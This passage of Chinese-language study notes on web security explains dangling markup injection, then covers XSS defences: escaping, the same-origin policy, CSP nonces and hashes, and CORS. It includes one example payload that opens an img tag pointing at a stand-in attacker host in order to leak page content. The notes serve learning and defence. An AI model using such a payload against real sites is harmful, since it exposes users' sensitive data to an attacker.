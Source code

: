 #### 悬垂标记注入

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

假设有这样一个不安全的网站，没有过滤或转义`>`或`""`字符，攻击者可以突破，但是网站有过滤器等策略，XSS无法实现

```html
"><img src='//attacker-website.com?
```

攻击者就会使用这种负载在发起悬垂标记注入攻击，攻击者创造了一个img标签，但是不关闭，这就是**悬空**，当浏览器解析响应时，会向前查找，直到遇到单引号终止，这之间的所有内容被视为URL的一部分，作为URL查询字符串发送到攻击者的服务器
这中间可能会包括敏感数据

### XSS上下文

在测试反射型和存储型XSS的时候，一个任务是识别XSS上下文

### 解决方案

#### 过滤消毒转义

* 过滤：通过白黑名单和关键词限制输入
* 消毒/转义：直接移除掉有害的代码，如`<script>`，`onerror`等，或将一些会被解析为HTML代码的字符显示为文本

#### 同源策略 `sop`

当浏览器从一个域向另一个域发送请求时，与另一个域相关的cookies就会作为请求的一部分发送，同源策略就是防止这种情况发生的

**同源策略**目的是防止网站相互攻击，规定了跨域之间的脚本是隔离的，一个域的脚本不能访问/操作另一个域的绝大部分属性和方法

> 两个关键原则
>
> **源匹配**：一个页面只能与其自身的源（协议、主机/域名、端口匹配）
>
> **同源检查**：是在源匹配的基础上进行的，当一个页面尝试访问自己网站需要的资源时，浏览器会检查这页面和这些资源是否来自相同的源，同源才能访问

#### 内容安全策略 `csp`

在同源策略的基础下，因为限制太强了，对一些大型网站的数据传递不太友好，所以有了内容安全策略

**内容安全策略**类似一种白名单，开发者明确告诉客户端，哪些外部资源是可以加载和执行的，降低注入漏洞的风险
默认情况下还会阻止内联脚本的执行（即HTML里的js），只有白名单或安全机制才能允许这些脚本执行

除了白名单外，CSP还有两种指定可信资源的方式

* nonce： CSP指令可以指定一个随机数，在加载脚本的标签中使用相同的随机数，如果值不对，就不会执行脚本，随机数要在每次加载页面时生成，且不能被攻击者猜到
* hashes： CSP指令指定受信任脚本的哈希值，如果实际脚本的哈希值和指定的哈希值不同，那么不会执行脚本

要启用CSP，响应需要包含一个HTTP响应标头，`Content-Security-Policy`标头使用包含策略的值调用，策略本身由一个或多个指令组成，以分号分割

* CSP只能限制`src`的请求

#### cors

cors是一种**W3C标准**，跨域资源共享

